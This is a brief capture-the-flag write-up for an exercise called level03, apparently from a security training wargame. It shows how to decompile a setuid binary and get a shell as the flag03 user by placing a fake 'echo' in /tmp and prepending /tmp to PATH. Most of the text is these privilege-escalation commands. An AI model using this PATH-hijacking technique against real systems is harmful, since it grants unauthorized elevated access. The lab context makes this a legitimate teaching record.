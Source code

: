 # level03

It is possible to run almost any executable with elevated privileges in this exercise, I chose sh as it permits pretty much anything

1. Decompile binary, see that it runs as flag03
2. Exploit env vars usage by changing $PATH
3. Create an exploit binary to be executed by the original binary
4. Execute original binary and retrieve flag

in kali: scp executable from target machine

in kali: `/opt/retdec/bin/retdec-decompiler.py level03`

OPTION 1:

 `PATH=/tmp:$PATH`

 `echo /bin/sh > /tmp/echo`

 `chmod +x /tmp/echo`

 `./level03`

 `whoami`

 `getflag`

OPTION 2:

 `cd /tmp`

 `vim main.c`

 Copy-Paste exploit.c

 `gcc main.c -o echo`

 `~/level03`

  `whoami`

 `getflag`
